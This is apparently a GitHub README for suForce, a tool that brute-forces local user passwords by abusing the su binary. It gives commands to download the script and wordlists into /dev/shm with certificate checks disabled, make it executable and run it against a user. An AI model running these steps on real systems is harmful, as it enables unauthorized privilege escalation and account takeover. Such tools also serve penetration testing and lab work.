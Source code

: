 # suForce

suForce performs brute force attacks on user passwords by abusing the su binary.

![](/screenshot.png)

- <kbd>Download suForce</kbd>

```sh
cd /dev/shm
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce"
chmod +x suForce
```

- <kbd>Download Wordlist (Optional)</kbd>

```sh
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/top12000.txt"
```

- <kbd>Usage</kbd>

```cmd
./suForce -u <USER> -w <WORDLIST>
```

---
